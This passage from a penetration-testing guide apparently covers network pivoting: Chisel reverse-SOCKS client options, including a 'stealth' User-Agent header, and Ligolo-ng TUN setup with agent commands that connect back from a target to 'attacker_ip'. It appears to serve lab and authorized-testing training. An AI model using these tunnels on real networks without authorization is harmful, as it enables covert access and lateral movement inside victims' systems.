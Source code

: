### 3.3 Advanced Chisel Configurations

```bash
# Connection through corporate proxies
chisel client --auth user:pass --proxy https://corp-proxy:8080 server_ip:8080 R:socks

# Fingerprint verification for security
chisel client --fingerprint xx:xx:xx:xx --auth user:pass server_ip:8080 R:socks

# Keepalive for unstable connections
chisel client --keepalive 10s --max-retry-count 5 server_ip:8080 R:socks

# Custom headers for stealth
chisel client --header "User-Agent: Mozilla/5.0" server_ip:8080 R:socks

# IPv6 support
chisel client --auth user:pass [::1]:8080 R:socks

# Compression enabled
chisel client --auth user:pass server_ip:8080 R:socks --compression
```

## 4. Ligolo-ng: Transparent Network Tunneling

:::note
The following examples require both Ligolo-ng proxy and agent binaries to be compiled and accessible on the attacker and target hosts. IP addresses, TUN interface names, and certificate files should be adjusted as per your lab or operational setup.
:::

Ligolo-ng implements a sophisticated userland networking stack through TUN interface manipulation, providing transparent network access without SOCKS proxy requirements.

### 4.1 Infrastructure Setup and Configuration

```bash
# Proxy server preparation (Linux)
sudo ip tuntap add dev ligolo mode tun
sudo ip link set ligolo up
sudo ip route add 192.168.56.0/24 dev ligolo

# Proxy server with custom TUN interface
sudo ip tuntap add dev tun_pivot mode tun
sudo ip link set tun_pivot up
sudo ip addr add 192.168.255.1/24 dev tun_pivot

# Start proxy with self-signed certificate
./proxy -selfcert

# Start proxy with custom certificate
./proxy -certfile server.crt -keyfile server.key

# Proxy with custom listening address
./proxy -laddr 0.0.0.0:11601 -selfcert

# Agent connection establishment
./agent -connect attacker_ip:11601 -ignore-cert

# Agent with retry mechanism
./agent -connect attacker_ip:11601 -ignore-cert -retry

# Bind agent (listening mode)
./agent -listen 0.0.0.0:11601 -ignore-cert

```